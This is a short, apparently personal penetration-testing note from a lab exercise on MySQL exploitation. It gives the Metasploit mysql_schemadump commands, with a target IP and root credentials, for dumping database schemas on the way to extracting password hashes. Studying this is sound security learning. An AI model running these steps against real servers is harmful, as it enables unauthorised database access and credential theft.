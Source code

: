 ## Pre-requisite --> [[MySQL enumeration]]
**From above, we have following details:**
1. MySQL server credentials  

2. The version of MySQL running

3. The number of Databases, and their names.

**However, the data we're going to be extracting are password hashes**

## Using metasploit:


```python
msf6 auxiliary(scanner/mysql/mysql_schemadump) > search mysql_schemadump
msf6 auxiliary(scanner/mysql/mysql_schemadump) > options
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set RHOSTS 10.10.19.225
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD password
msf6 auxiliary(scanner/mysql/mysql_schemadump) > run
```
**Result** - It give us information about which schema(database) has been dumped.
